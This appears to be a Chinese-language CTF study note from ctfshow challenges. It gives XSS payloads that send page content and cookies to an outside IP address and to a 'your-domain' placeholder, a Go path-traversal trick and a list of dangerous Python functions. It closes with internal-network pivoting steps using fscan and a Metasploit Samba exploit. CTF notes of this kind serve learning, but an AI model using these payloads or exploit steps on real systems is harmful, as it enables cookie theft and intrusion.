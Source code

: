`<script>$('.laytable-cell-1-0-1').each(function(index,value){if(value.innerHTML.indexOf('ctf'+'show{')>-1){window.location.href='http://43.143.239.235/cdd.php?cookie='+value.innerHTML;}});</script>`

`var img = new Image(); img.src = "http://your-domain/cookie.php?cookie="+document.querySelector('#top > div.layui-container').tex tContent; document.body.append(img);`

`<script src="http://43.143.239.235/cdd.js"></script>`(没有成功QWQ)

[留个链接](https://www.cnblogs.com/hookjoy/p/6181350.html)

### csp

留着

## go1.15

如果是`CONNECT`方式请求，就不会处理url中的特殊字符。导致直接读取flag.其他的请求方法都会在`cleanPath`中被处理url,路径穿越

## python代码审计

1.内置危险函数

exec

execfile

eval

2.标准库危险模块

os

subprocess

commands

3.危险第三方库

Template(user_input) : 模板注入(SSTI)所产生的代码执行

subprocess32

4.反序列化

marshal

PyYAML

pickle和cpickle

shelve

PIL

unzip

## 内网渗透

形如`ssh ctfshow@pwn.challenge.ctf.show -p28143`

首先ssh连接,在/home目录下创建对应用户并chmod 777

然后transmit连接上传`fscan_amd64`

`ifconfig`后扫描内网

msf攻击可疑端口

```bash
msfconsole
use exploit/linux/samba/is_known_pipename
set rhost 172.2.123.6
exploit 
```
